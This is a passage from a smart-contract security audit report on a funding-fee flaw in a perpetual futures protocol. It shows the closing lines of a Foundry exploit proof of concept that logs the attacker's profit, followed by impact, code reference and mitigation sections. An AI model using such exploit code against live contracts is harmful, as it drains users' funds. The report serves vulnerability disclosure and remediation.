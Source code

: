 ```solidity
        uint256 toWithdraw = margAbs.formatDecimals(INTERNAL_DECIMALS,collateralToken.decimals());
        vault.transferMarginToFund(marketId,toWithdraw);
        vault.withdraw(vault.getFund(exploiter));
        vm.stopPrank();

        uint256 finalQuoteBalance = collateralToken.balanceOf(address(exploiter));
        console.log("Exploiter Quote balance at End: %s", finalQuoteBalance);
        //OUTPUT: Exploiter Quote balance at End: 6098860645835
        //exploiter profit  = $6,098,860 - $5,000,000 = $1,098,860
    }
}

```


## Impact

The various possible attacks detailed above generate immediate profits to the exploiter that can be withdrawn immediately if enough PnL exists in the pool, diluting the PnL pool on the expense of users and causing them financial loss from not being able to withdraw their profits. In addition, as detailed above many positions can be made liquidatable following the attack causing further damage.

## Code Snippet
https://github.com/sherlock-audit/2024-02-perpetual/blob/02f17e70a23da5d71364268ccf7ed9ee7cedf428/perp-contract-v3/src/fundingFee/FundingFee.sol#L104

## Tool used

Manual Review
Foundry

## Recommendations

To mitigate this issue it is essential to resolve the root cause: the fact that funding fee is set using only a part of the market (Oracle Maker). Instead, the entire market long/short positions should be used to determine the rate. This will prevent an exploiter from opening the counter position (that gains fee) without that position also affecting the funding rate.